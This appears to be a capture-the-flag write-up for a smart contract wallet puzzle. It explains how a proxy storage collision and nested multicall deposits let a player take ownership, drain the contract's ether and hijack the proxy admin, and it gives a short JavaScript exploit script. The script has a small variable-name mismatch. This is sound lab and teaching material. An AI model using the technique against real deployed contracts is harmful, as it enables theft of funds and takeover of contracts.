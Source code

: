 If we can't call deposit multiple times in one `multicall` how about we do it but by adding another layer of `multicall`

![PuzzleWallet call hiearchy](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138026/bc95441a9b162a8b1494771895c5a3385ec0e2be3c4d26376c351eae4a5f5d1d_ggsn87.png)  

This allows to have the double of the msg.value as balance. Okay so we said we had **0.001** ethers as contract balance ? let's deposit 0.001 to our account so we can drain it. ( we will have the same value for our balance and the contract's ) . By having the contract's balance as 0 we can simply set the owner ow I mean maxBalance to our player account to **hijack the proxy**.

-----
**Exploitation**

1. become the owner of the contract
2. become whitelisted
3. deposit the balance of the contract with multiple calls
4. withdraw all funds
5. setMaxBalance as our address

> The proxy is completely transparent this is possible by loading the ABI of the PuzzleWallet and using the address of the proxy. Don't get confused the address is the proxy's !

```js
const proposeAdminCall= web3.eth.abi.encodeFunctionCall({
name: 'proposeNewAdmin',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_newAdmin'
        }
    ]
},player)

await web3.eth.sendTransaction({data:proposeAdminCall,from:player,to:instance});

await contract.addToWhitelist(player);

// getting the deposit call data

const depositData = (await contract.methods('deposit()').request()).data

const multiCallData = (await contract.methods('multicall(bytes[])').request([depositData])).data

await contract.multicall([multicallData,multicallData],{value:toWei('0.001')}); // adding to our balance

await contract.execute(player,toWei('0.002'),'0x0'); // Draining funds

await contract.setMaxBalance(player) // It will convert upon call 
```

Challenge solved ✅
